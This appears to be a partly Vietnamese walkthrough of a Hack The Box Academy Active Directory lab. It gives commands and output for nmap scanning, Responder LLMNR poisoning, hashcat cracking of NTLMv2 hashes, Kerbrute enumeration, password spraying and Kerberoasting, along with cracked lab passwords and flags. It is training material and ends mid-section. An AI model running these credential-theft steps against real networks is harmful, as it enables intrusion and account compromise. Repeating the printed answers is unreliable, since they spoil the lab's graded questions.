

# External Recon and Enumeration Principles

#### Questions

+ 0  While looking at inlanefreights public records; A flag can be seen. Find the flag and submit it. ( format == HTB{******} )

```zsh
dig txt inlanefreight.com
```


# Initial Enumeration of the Domain

#### Questions

 SSH to  with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  From your scans, what is the "commonName" of host 172.16.5.5 ?

```zsh
sudo nmap -A -T 4 --min-rate 3000 172.16.5.5
```


+ 0  What host is running "Microsoft SQL Server 2019 15.00.2000.00"? (IP address, not Resolved name)

```zsh
sudo nmap -A -T 4 --min-rate 3000 172.16.5.130
```

Để ý thông qua các dịch vụ khác ví dụ như SMB, ta hoàn toàn có thể xác định được phiên bản hệ điều hành của mục tiêu:

```zsh
ost script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: ACADEMY-EA-FILE, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b0:65:49 (VMware)
| smb2-time: 
|   date: 2025-05-22T16:58:47
|_  start_date: N/A
| ms-sql-info: 
|   172.16.5.130:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433

TRACEROUTE
HOP RTT     ADDRESS
1   0.92 ms 172.16.5.130
```
# LLMNR/NBT-NS Poisoning - from Linux
#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.84.172 (ACADEMY-EA-ATTACK01)   

 SSH to 10.129.84.172 (ACADEMY-EA-ATTACK01) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  Run Responder and obtain a hash for a user account that starts with the letter b. Submit the account name as your answer.

Kiểm tra NIC bằng lệnh  ifconfig, để ý NIC nào đang nằm trong mạng private 172.16.5.0/23.

```zsh
sudo responder -I ens224
```

Username bắt đầu với chữ cái 'b' có lẽ là `backupagent`, chúng ta đã có hàm băm của anh ta.

```zsh
[SMB] NTLMv2-SSP Client   : 172.16.5.130
[SMB] NTLMv2-SSP Username : INLANEFREIGHT\backupagent
[SMB] NTLMv2-SSP Hash     : backupagent::INLANEFREIGHT:23572c9987011615:02E3581082858BC1736E5E87C22CEB3B:010100000000000080DAFDB21ECBDB01AB9B519A7F52D0D400000000020008004C0059005600420001001E00570049004E002D003300530030003000520049003500440052003200480004003400570049004E002D00330053003000300052004900350044005200320048002E004C005900560042002E004C004F00430041004C00030014004C005900560042002E004C004F00430041004C00050014004C005900560042002E004C004F00430041004C000700080080DAFDB21ECBDB0106000400020000000800300030000000000000000000000000300000C93CB54D77D08E579F8FA227B7403C0C00D37D6915DA97ADDAC344866684E0FA0A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E0035002E003200320035000000000000000000   
```

+ 0  Crack the hash for the previous account and submit the cleartext password as your answer.

```zsh
hashcat -m 5600 backupagent_hash /usr/share/wordlists/rockyou.txt --show
BACKUPAGENT::INLANEFREIGHT:23572c9987011615:02e3581082858bc1736e5e87c22ceb3b:010100000000000080dafdb21ecbdb01ab9b519a7f52d0d400000000020008004c0059005600420001001e00570049004e002d003300530030003000520049003500440052003200480004003400570049004e002d00330053003000300052004900350044005200320048002e004c005900560042002e004c004f00430041004c00030014004c005900560042002e004c004f00430041004c00050014004c005900560042002e004c004f00430041004c000700080080dafdb21ecbdb0106000400020000000800300030000000000000000000000000300000c93cb54d77d08e579f8fa227b7403c0c00d37d6915da97addac344866684e0fa0a001000000000000000000000000000000000000900220063006900660073002f003100370032002e00310036002e0035002e003200320035000000000000000000:h1backup55
```

+ 0  Run Responder and obtain an NTLMv2 hash for the user wley. Crack the hash using Hashcat and submit the user's password as your answer.

```zsh
[SMB] NTLMv2-SSP Username : INLANEFREIGHT\wley
[SMB] NTLMv2-SSP Hash     : wley::INLANEFREIGHT:2dd7b9c6ef0621c9:A16D599B6E621ED7F4AFE7EF7FEABFAE:010100000000000080DAFDB21ECBDB01570442FC64E5BB3700000000020008004C0059005600420001001E00570049004E002D003300530030003000520049003500440052003200480004003400570049004E002D00330053003000300052004900350044005200320048002E004C005900560042002E004C004F00430041004C00030014004C005900560042002E004C004F00430041004C00050014004C005900560042002E004C004F00430041004C000700080080DAFDB21ECBDB0106000400020000000800300030000000000000000000000000300000C93CB54D77D08E579F8FA227B7403C0C00D37D6915DA97ADDAC344866684E0FA0A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E0035002E003200320035000000000000000000
```

```zsh
hashcat -m 5600 wley_ntlm2 /usr/share/wordlists/rockyou.txt --show
WLEY::INLANEFREIGHT:2dd7b9c6ef0621c9:a16d599b6e621ed7f4afe7ef7feabfae:010100000000000080dafdb21ecbdb01570442fc64e5bb3700000000020008004c0059005600420001001e00570049004e002d003300530030003000520049003500440052003200480004003400570049004e002d00330053003000300052004900350044005200320048002e004c005900560042002e004c004f00430041004c00030014004c005900560042002e004c004f00430041004c00050014004c005900560042002e004c004f00430041004c000700080080dafdb21ecbdb0106000400020000000800300030000000000000000000000000300000c93cb54d77d08e579f8fa227b7403c0c00d37d6915da97addac344866684e0fa0a001000000000000000000000000000000000000900220063006900660073002f003100370032002e00310036002e0035002e003200320035000000000000000000:transporter@4
```

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.63.80 (ACADEMY-EA-MS01)   

 RDP to 10.129.63.80 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!"

+ 0  Run Inveigh and capture the NTLMv2 hash for the svc_qualys account. Crack and submit the cleartext password as the answer.

```zsh
xfreerdp3 /v:10.129.63.80 /u:htb-student /p:'Academy_student_AD!'
```


```zsh
hashcat -m 5600 svc_qualys_hash /usr/share/wordlists/rockyou.txt --show
SVC_QUALYS::INLANEFREIGHT:fbd25250c1cf01fc:a897d994b7336d08fdde792447277228:01010000000000002bcc657445cbdb01c3976282919e5a5c0000000002001a0049004e004c0041004e004500460052004500490047004800540001001e00410043004100440045004d0059002d00450041002d004d005300300031000400260049004e004c0041004e00450046005200450049004700480054002e004c004f00430041004c0003004600410043004100440045004d0059002d00450041002d004d005300300031002e0049004e004c0041004e00450046005200450049004700480054002e004c004f00430041004c000500260049004e004c0041004e00450046005200450049004700480054002e004c004f00430041004c00070008002bcc657445cbdb0106000400020000000800300030000000000000000000000000300000212a62e653617373c62fda0966078637ae053fc4dcf8d5810d6cc249634926450a001000000000000000000000000000000000000900200063006900660073002f003100370032002e00310036002e0035002e00320035000000000000000000:security#1
```
# Enumerating & Retrieving Password Policies

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.200.73 (ACADEMY-EA-ATTACK01)   

 SSH to 10.129.200.73 (ACADEMY-EA-ATTACK01) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  What is the default Minimum password length when a new domain is created? (One number)

| Policy                                      | Default Value |
| ------------------------------------------- | ------------- |
| Enforce password history                    | 24 days       |
| Maximum password age                        | 42 days       |
| Minimum password age                        | 1 day         |
| Minimum password length                     | 7             |
| Password must meet complexity requirements  | Enabled       |
| Store passwords using reversible encryption | Disabled      |
| Account lockout duration                    | Not set       |
| Account lockout threshold                   | 0             |
| Reset account lockout counter after         | Not set       |

+ 0  What is the minPwdLength set to in the INLANEFREIGHT.LOCAL domain? (One number)
```zsh
rpcclient -U "" -N 172.16.5.5

rpcclient $> querydominfo
Domain:         INLANEFREIGHT
Server:
Comment:
Total Users:    3509
Total Groups:   0
Total Aliases:  203
Sequence No:    1
Force Logoff:   -1
Domain Server State:    0x1
Server Role:    ROLE_DOMAIN_PDC
Unknown 3:      0x1

rpcclient $> getdompwinfo
min_password_length: 8
password_properties: 0x00000001
        DOMAIN_PASSWORD_COMPLEX
        
rpcclient $> 
```

# Password Spraying - Making a Target User List

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.200.73 (ACADEMY-EA-ATTACK01)   

 SSH to 10.129.200.73 (ACADEMY-EA-ATTACK01) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  Enumerate valid usernames using Kerbrute and the wordlist located at /opt/jsmith.txt on the ATTACK01 host. How many valid usernames can we enumerate with just this wordlist from an unauthenticated standpoint?

```zsh
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt > valid-users

cat valid-users
```


# Internal Password Spraying - from Linux

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.200.73 (ACADEMY-EA-ATTACK01)   

 SSH to 10.129.200.73 (ACADEMY-EA-ATTACK01) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  Find the user account starting with the letter "s" that has the password Welcome1. Submit the username as your answer.

```zsh
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt > valid-users
```

Lọc ra các username có kí tự 's' ở đầu tên:

```zsh
cat valid-users | grep 'VALID' | cut -d' ' -f8 | grep '^s' | cut -d'@' -f1
sbrown
srosario
sinman
strent
sgage

cat valid-users | grep 'VALID' | cut -d' ' -f8 | grep '^s' | cut -d'@' -f1  > valid.txt
```

Tiến hành spray password

```zsh
sudo crackmapexec smb 172.16.5.5 -u valid.txt -p Welcome1 | grep +
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\sgage:Welcome1
```

# Internal Password Spraying - from Windows

#### Questions
 RDP to 10.129.232.141 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!"

+ 0  Using the examples shown in this section, find a user with the password Winter2022. Submit the username as the answer.

```powershell
Import-Module .\DomainPasswordSpray.ps1

Invoke-DomainPasswordSpray -Password -OutFile spray_success -ErrorAction SilentlyContinue
```


# Credentialed Enumeration - from Linux

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.231.114 (ACADEMY-EA-ATTACK01)   

 SSH to 10.129.231.114 (ACADEMY-EA-ATTACK01) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  What AD User has a RID equal to Decimal 1170?

Convert 1170 dec to hex: 492

```zsh
rpcclient -U "" -N 172.16.5.5

rpcclient $> queryuser 0x492
        User Name   :   mmorgan
        Full Name   :   Matthew Morgan
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Thu, 10 Mar 2022 14:48:06 EST
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 31 Dec 1969 19:00:00 EST
        Password last set Time   :      Tue, 05 Apr 2022 15:34:55 EDT
        Password can change Time :      Wed, 06 Apr 2022 15:34:55 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x492
        group_rid:      0x201
        acb_info :      0x00010210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000018
        padding1[0..7]...
        logon_hrs[0..21]...

```

+ 0  What is the membercount: of the "Interns" group?

```zsh
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -m Interns

+] Using Domain Controller at: 172.16.5.5
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=INLANEFREIGHT,DC=LOCAL
[+] Attempting bind
[+]     ...success! Binded as: 
[+]      u:INLANEFREIGHT\forend
[+] Attempting to enumerate full DN for group: Interns
[+] Found 2 results:

0: CN=Interns,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
1: OU=Interns,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL

Which DN do you want to use? : 0
[+]      Found 10 members:

b'CN=Helen Griffin,OU=Interns,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL'
b'CN=Marty Tsosie,OU=Interns,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL'
b'CN=Raymond Perry,OU=Interns,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL'
b'CN=Anne Rey,OU=Interns,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL'
b'CN=Alton Lawless,OU=Interns,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL'
b'CN=Ervin Brown,OU=Interns,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL'
b'CN=Ruth Milliman,OU=Interns,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL'
b'CN=Richard Butler,OU=Interns,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL'
b'CN=Enriqueta Green,OU=Interns,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL'
b'CN=Henry Yanez,OU=Interns,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL'

[*] Bye!
```

# Credentialed Enumeration - from Windows

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.175.83 (ACADEMY-EA-MS01)   


 RDP to 10.129.175.83 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!"

+ 0  Using Bloodhound, determine how many Kerberoastable accounts exist within the INLANEFREIGHT domain. (Submit the number as the answer)

Chạy SharpHound lấy kết quả tải lên BloodHound GUI.
Chạy truy vấn sau để tìm kiếm người dùng kerberoastable trên một domain cụ thể:

```cypher
MATCH (d:Domain {name: "INLANEFREIGHT.LOCAL"}), (u:User {hasspn: true})
WHERE u.domainsid = d.objectid
RETURN u
```


+ 0  What PowerView function allows us to test if a user has administrative access to a local or remote host?
|   |   |
|---|---|
|**Computer Enumeration Functions:**||
|`Get-NetLocalGroup`|Enumerates local groups on the local or a remote machine|
|`Get-NetLocalGroupMember`|Enumerates members of a specific local group|
|`Get-NetShare`|Returns open shares on the local (or a remote) machine|
|`Get-NetSession`|Will return session information for the local (or a remote) machine|
|`Test-AdminAccess`|Tests if the current user has administrative access to the local (or a remote) machine|

+ 0  Run Snaffler and hunt for a readable web config file. What is the name of the user in the connection string within the file?


+ 0  What is the password for the database user?

ILFREIGHTDB01!


# Living Off the Land

#### Questions

Answer the question(s) below to complete this Section and earn cubes!


 RDP to 10.129.175.83 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!"

+ 0  Enumerate the host's security configuration information and provide its AMProductVersion.
```powershell
Get-MpComputerStatus
AMEngineVersion                 : 0.0.0.0
AMProductVersion                : 4.18.2109.6
AMRunningMode                   : Not running
AMServiceEnabled                : False
AMServiceVersion                : 0.0.0.0
AntispywareEnabled              : False
AntispywareSignatureAge         : 4294967295
AntispywareSignatureLastUpdated : 
AntispywareSignatureVersion     : 0.0.0.0
AntivirusEnabled                : False
AntivirusSignatureAge           : 4294967295
AntivirusSignatureLastUpdated   : 
AntivirusSignatureVersion       : 0.0.0.0
BehaviorMonitorEnabled          : False
ComputerID                      : 077DD3DD-5AF2-43E2-900E-D8B5FF616DFA
ComputerState                   : 0
FullScanAge                     : 4294967295
FullScanEndTime                 : 
FullScanStartTime               : 
IoavProtectionEnabled           : False
IsTamperProtected               : False
IsVirtualMachine                : True
LastFullScanSource              : 0
LastQuickScanSource             : 0
NISEnabled                      : False
NISEngineVersion                : 0.0.0.0
NISSignatureAge                 : 4294967295
NISSignatureLastUpdated         : 
NISSignatureVersion             : 0.0.0.0
OnAccessProtectionEnabled       : False
QuickScanAge                    : 4294967295
QuickScanEndTime                : 
QuickScanStartTime              : 
RealTimeProtectionEnabled       : False
RealTimeScanDirection           : 0
TamperProtectionSource          : N/A
TDTMode                         : N/A
TDTStatus                       : N/A
TDTTelemetry                    : N/A
PSComputerName                  : 
```


+ 0  What domain user is explicitly listed as a member of the local Administrators group on the target host?

Đầu tiên, đơn giản là liệt kê tất cả members của nhóm Local Admin:

```powershell
net localgroup Administrators
```

```powershell
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
INLANEFREIGHT\adunn
INLANEFREIGHT\Domain Admins
INLANEFREIGHT\Domain Users
The command completed successfully.
```

Dễ dàng thấy rằng các nhóm thuộc miền Inlanefreight là Domain Admins và Domain Users cũng thuộc nhóm quản trị viên cục bộ của máy chủ này. Ở đây có thêm một user rõ ràng là `adunn`, rõ ràng câu trả lời là người dùng này vì anh ta thuộc miền INLANEFREIGHT.LOCAL

+ 0  Utilizing techniques learned in this section, find the flag hidden in the description field of a disabled account with administrative privileges. Submit the flag as the answer.

Đầu tiên chúng ta cần lọc ra những tài khoản mà disabled bằng dsquery: userAccountControl:1.2.840.113556.1.4.803:=2

```powershell
PS C:\Tools> dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=2)" -limit 0 -attr sAMAccountName
  sAMAccountName
  krbtgt
  sm_752cbd23e73649258
  sm_8b3ff26494d94da89
  sm_434e56f7c43f4534a
  sm_51dc5f77b78546d7b
  sm_c6ccf50003bf4310b
  sm_c7c8c6f5727449fbb
  sm_925f7acdff9344408
  sm_820598b3d6c548a08
  sm_8f47aca8186c4f0da
  $725000-9jb50uejje9f
  bross
  guest
```

Sau đó chúng ta tìm thông tin chi tiết, có user nào thuộc OU hoặc có CN là 'Admin' / 'Domain Admin' không.... hay có quyền admin ở bất cứ bộ phận nào...

```powershell
PS C:\Tools> dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=2)" -limit 0
"CN=krbtgt,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Jessica Msexchapproval 1F05a927-3Be2-4Fb9-Aa03-B59fe3b56f4c,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Jessica Systemmailbox Bb558c35-97F1-4Cb9-8Ff7-D53741dc928c,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Jessica Msexchdiscovery E0dc1c29-89C3-4034-B678-E6c29d823ed9,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Jessica Msexchdiscoverymailbox D919ba05-46A6-415F-80Ad-7E09334bb852,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Jessica Migration.8F3e7716-2011-43E4-96B1-Aba62d229136,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Jessica Federatedemail.4C1f4d8b-8179-4148-93Bf-00A95fa1e042,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Jessica Systemmailbox{D0e409a0-Af9b-4720-92Fe-Aac869b0d201},CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Jessica Systemmailbox{2Ce34405-31Be-455D-89D7-A7c7da7a0daa},CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Jessica Systemmailbox 8Cc370d3-822A-4Ab8-A926-Bb94bd0641a9,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Jessica Ramsey,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Betty Ross,OU=IT Admins,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Guest,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
```

Dễ dàng thấy rằng người dùng "CN=Betty Ross,OU=IT Admins,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL" thuộc nhóm IT Admins. Do đó đối chiếu với sAMAccountName, username của anh ta là `bross`

Chúng ta sẽ kiểm tra kĩ user này bằng lệnh:

```powershell
net user bross /domain
```

```powershell
PS C:\Tools> net user bross /domain
The request will be processed at a domain controller for domain INLANEFREIGHT.LOCAL.

User name                    bross
Full Name                    Betty Ross
Comment                      HTB{LD@P_I$_W1ld}
User's comment
Country/region code          000 (System Default)
Account active               No
Account expires              Never

Password last set            10/27/2021 10:37:07 AM
Password expires             Never
Password changeable          10/28/2021 10:37:07 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *File Share G Drive   *File Share H Drive
                             *Printer Access       *Contractors
                             *Domain Admins        *Domain Users
                             *VPN Users            *Shared Calendar Read
The command completed successfully.
```


# Kerberoasting - from Linux

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.171.95 (ACADEMY-EA-ATTACK01)   

 SSH to 10.129.171.95 (ACADEMY-EA-ATTACK01) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  Retrieve the TGS ticket for the SAPService account. Crack the ticket offline and submit the password as your answer.

Đầu tên, list SPN users với credential có sẵn là `htb-student:Academy_student_AD!` (tài khoản trong miền mà chúng ta đã được cấp để rdp) hoặc tài khoản mà người hướng dẫn dùng trong module: `forend:Klmcargo2`

```zsh
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

Hoặc

```zsh
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/htb-student
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                               Name               MemberOf                                                                                  PasswordLastSet             LastLogon                   Delegation 
-------------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  --------------------------  ----------
MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433  damundsen          CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL                         2022-03-24 12:20:34.127432  2022-04-10 18:50:58.924378             
MSSQL/ACADEMY-EA-FILE                              damundsen          CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL                         2022-03-24 12:20:34.127432  2022-04-10 18:50:58.924378             
backupjob/veam001.inlanefreight.local              backupagent        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  2022-04-18 21:20:32.090310             
sts/inlanefreight.local                            solarwindsmonitor  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>                                
MSSQLSvc/SPSJDB.inlanefreight.local:1433           sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>                                
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351      sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>                                
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433      sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>                                
adfsconnect/azure01.inlanefreight.local            adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never>                                
testspn/kerberoast.inlanefreight.local             testspn                                                                                                      2022-02-27 15:15:43.406442  <never>                                
testspn2/kerberoast.inlanefreight.local            testspn2                                                                                                     2022-02-27 15:59:39.843945  <never>                                
http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL         certsvc                                                                                                      2022-03-30 15:44:18.414039  2022-03-30 15:50:53.679679             
vmware/inlanefreight.local                         svc_vmwaresso                                                                                                2022-04-05 15:32:46.799565  <never>                                
SAPService/srv01.inlanefreight.local               SAPService         CN=Account Operators,CN=Builtin,DC=INLANEFREIGHT,DC=LOCAL                                 2022-04-18 14:40:02.959792  <never>                                
```

Lấy vé của người dùng `SAPService`:

```zsh
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/htb-student -request-user SAPService  -outputfile /tmp/SAPService_tgs                                                       
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                  Name        MemberOf                                                   PasswordLastSet             LastLogon  Delegation 
------------------------------------  ----------  ---------------------------------------------------------  --------------------------  ---------  ----------
SAPService/srv01.inlanefreight.local  SAPService  CN=Account Operators,CN=Builtin,DC=INLANEFREIGHT,DC=LOCAL  2022-04-18 14:40:02.959792  <never>  
```

Đưa về Kali để bẻ khóa:

```zsh
cd /tmp
python3 -m http.server 9981
```

Trên máy Kali:

|EType|Hashcat Mode|Hash Format|
|---|---|---|
|RC4-HMAC (etype 23)|`13100`|`$krb5tgs$23$...`|
|AES128-CTS-HMAC-SHA1-96|`19700`|`$krb5tgs$17$...`|
|AES256-CTS-HMAC-SHA1-96|`19600`|`$krb5tgs$18$...`|

```zsh
wget http://10.129.171.95:9981/SAPService_tgs
cat SAPService_tgs
```


Để ý rằng loại hash này có \$23\$ do đó ta dùng etype 23

```zsh
$krb5tgs$23$*SAPService$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/SAPService*$ae445370f2167e57901931e4e7bcd79c$2a96eb7f8b9f7683d49ed82a20c935f031e04c6a40d3ac06f403fbc51055b1793a3e764f992edb2e229796da8e7f32433cd3f494a4001c0124f79829ebaf9b2df66cdd8e7266f08880f86505dc0be5b2b0bd3e775cf7aba4f2de5e1c7b6366859ae9f286ecf2895bcbffa181d0473a40f10de9c4cd5141d61114319d071b0bc977c98d103f9552f1dfde7c236363ca68e40fec36096cd739b7728293fbe53180b462468a9c6e4095982d8d4eda7d90318768708291d2849708310b4122cfae8917004244acda2770ac4807674a20fa7574700f73cfe50174602a2d0e40e605a0197c348aafbd26fcede685e6956d954e0ee530816df2655ba630582797381f5b94490d6875791995928bf2fd44a939685ceb11f5e1590c30b97677dbca907e02fe0c013f0a248286fcb8ca0cfca458d130cd882bfc08c2ec4c0ac92944febb27028c73fd45941cb51bfe4dbef51f875329130fc98465f76f7363229f52f6d824e54562102ad8872ada04a4d044629f80f2602e4012fd7950e7fa09238cb8445fdc11ac501d62a70acf3b244072a2a593e8cc04be276859863e0b8d33f06b9d9faac6bc2848587cde9655db9afa7b0cac17c6ed468fca93393d82ccbe71cc7c27da153e7e125226085b876b0bd30fd83ec60cce469a16f3965fd1d5002d4770ed1e9f1b47f9136dca281d6d624d363f24055044280cb95451a702423afdbacc73bf696edd9ba9c4c4d90baf9e07c5fc9e88239b53d37466e9ecbf856aec104d3a538a5ab81c1d920949863ab808992c254f8901b91a9d825cef89148f1bc2f6c8d15b8ff0d833b4a0f20d07a4869005940b179aa31da77a4b1f5f84298b330ff9cd0edb63cdcc3ba4ff616bf2525485a9a1de836039c4f9563435089d0fa07fada6c6d29e3fe8aef78fd1a14370497784aa690dc2c5f88112676ef30807e4923c639a0eb2774caf4731466b733a3fa3c9000e2370f5ab0773ebaa05ab39162da50efe565e65dcd53d2679b7701bd078d3614cf8008708811cbe9f9c5d190a1b20c9913e2458424c1dc212daf8a7abde2eb72ff6bb49a54cf3c02cee67d83efe0b76a9960e50761111ed27c13fe5ba6bf40119b11dd64d7ced2aa3597a14c80dc6e31e8eb841e175ae572b01b7d4ff2bdda108c0af07f2227a72ee55a123c69131e5a3e4dcab08fcb6a1b7ab1f02f1dd9ed1c4d316cc2758beb566996b1b9c90454aa8acf55f0a8a936bc29c6d2eae6c90d0766ba63164d3201f7f39b1a060107c2bbc4189b9a301fd040e1b0a051caf952ca07b92095b41a038ac635c79c177a9f0adc7a4bd78e6646e621155e962a1c40775c97ea0816d746bc71897145534c73a648513923d49ab7eb007c0c2bea5a68e120b3e21a4db0fe0c271b3f98cb22c6c1349860dbbcc41285526ec0aa102551a65efcf3c67f9509cb9f1a7c0ae7b23e4021fa16ca249f804d4e1c6940c325415165e1f96d31c0500bce405632be2faf0051dcd6b3c3b1f6ab5affb302a78:!SapperFi2
```
+ 0  What powerful local group on the Domain Controller is the SAPService user a member of?

Chúng ta hoàn toàn có thể sử dụng BloodHound để kiểm tra, tuy nhiên kết quả đã quá rõ ràng khi thực hiện liệt kê các tài khoản SPN:

```zsh
SAPService/srv01.inlanefreight.local               SAPService         CN=Account Operators,CN=Builtin,DC=INLANEFREIGHT,DC=LOCAL    
```

Người dùng này thuộc một nhóm có quyền lực tiềm năng cho leo thang trong miền: 
`CN=Account Operators`

# Kerberoasting - from Windows

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.68.100 (ACADEMY-EA-MS01)   

 RDP to 10.129.68.100 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!"

+ 0  What is the name of the service account with the SPN 'vmware/inlanefreight.local'?

```powershell
